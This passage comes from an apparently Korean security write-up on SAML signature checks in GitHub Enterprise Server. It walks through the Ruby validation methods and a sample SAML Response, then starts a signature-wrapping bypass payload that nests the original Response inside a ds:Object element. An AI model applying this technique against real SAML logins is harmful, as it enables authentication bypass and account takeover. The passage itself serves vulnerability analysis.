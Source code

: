 ```jsx
  # and finally does the root ref URI match the root ID?
  root_ref_uri == root_id
end

def all_assertions_signed_with_matching_ref?
  assertions = document.xpath("//saml2:Assertion", namespaces)
  assertions.all? do |assertion|
    ref = assertion.at("./ds:Signature/ds:SignedInfo/ds:Reference", namespaces)
    return false unless ref
    assertion_id = String(assertion["ID"])
    ref_uri = String(String(ref["URI"])[1..-1]) # chop off leading #
    return false unless ref_uri.length > 1

    ref_uri == assertion_id
  end
end
```

조금 복잡하지만 천천히 살펴봅시다. 다음은 예시 SAML Response 입니다. `has_root_sig_and_matching_ref?` 은 [1] 의 Signature 블록내에 Reference URI 가 Response ID 와 같은지 검사를 하는 역할이구요. `all_assertion_signed_with_matching_ref?` 는 [2] 와 같은 Assertion 블록들이 Signature 를 갖고 Reference URI 가 해당 Assertion ID와 매칭이 되는지 검사하는 메서드입니다.

`validate_assertion_digest_values` 와 `validate_signatures_ghes` 는 각 Assertion 블록의 DigestValue 를 레퍼런스 되는 노드의 Signature 와 검증합니다. Assertion [2] 를 검증하는 것이죠.

```jsx
<Response ID="123">
    <Signature> // [1]
		
        <SignedInfo>
            <Refernce URI="#123"></Refernce>
        </SignedInfo>
    </Signature>
    <Assertion ID="789">
        <Signature> // [2]
			
            <SignedInfo>
                <Refernce URI="#789"></Refernce>
            </SignedInfo>
        </Signature>
    </Assertion>
</Response>
```

**검증 우회**

Signature 와 Assertion 쌍을 검사하는 `validate_has_signature` 우회를 위해 `<ds:Object>` 를 사용할 수 있습니다. 

Root Response 의 ID를 임의의 값으로 변경하고 Object 블록 안에 원본 Response 를 삽입합니다. 그리고 최상위 Signature 의 Refrence URI 는 삽입된 Response 의 ID로 맞춥니다. [1] 그런 다음 삽입된 Response 아래의 Assertion 과 그 다음 Signature 의 ID, URI 를 맞춥니다. [2]

```jsx
<Response ID="11111111">
  <Signature>
    <SignedInfo>
      <Refernce URI="#123"></Refernce> [1]
    </SignedInfo>
    <Object>
      <Response ID="123"> [1]
        <Signature>

          <SignedInfo>
            <Refernce URI="#123"></Refernce>
          </SignedInfo>
        </Signature>
        <Assertion ID="789"> [2]
```